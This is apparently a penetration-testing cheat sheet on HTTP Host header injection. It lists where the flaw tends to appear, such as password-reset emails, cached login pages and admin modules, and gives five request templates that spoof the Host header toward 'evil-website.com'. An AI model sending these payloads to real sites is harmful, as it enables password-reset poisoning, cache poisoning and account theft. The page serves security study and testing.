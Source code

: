 # Host Header Injection

## Introduction
HTTP Host header attacks exploit vulnerable websites that handle the value of the Host header in an unsafe way. If the server implicitly trusts the Host header, and fails to validate or escape it properly, an attacker may be able to use this input to inject harmful payloads that manipulate server-side behavior. Attacks that involve injecting a payload directly into the Host header are often known as "Host header injection" attacks.

## Where to find
In the feature where the website can send email to us. For example forgot password / newsletter.
when Host is reflected in Login page, toghether with cache poisoning, increase the possibility to steal password.
Admin module accept access locally or with internal IP.

## How to exploit
1. Change the host header
```
GET /index.php HTTP/1.1
Host: evil-website.com or localhost or PrivateIP
...
```
2. Duplicating the host header
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
Host: evil-website.com
...
```
3. Add line wrapping
```
GET /index.php HTTP/1.1
 Host: vulnerable-website.com
Host: evil-website.com
...
```
4. Add host override headers
```
X-Forwarded-For: evil-website.com
X-Forwarded-Host: evil-website.com
X-Forwarded-Server: evil-website.com
X-Client-IP: evil-website.com
X-Remote-IP: evil-website.com
X-Remote-Addr: evil-website.com
X-Host: evil-website.com
```
How to use? In this case im using "X-Forwarded-For : evil.com"
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For : evil-website.com
...
```
5. Supply an absolute URL
```
GET https://vulnerable-website.com/ HTTP/1.1
Host: evil-website.com
...
```

## References
* [PortSwigger](https://portswigger.net/web-security/host-header/exploiting)
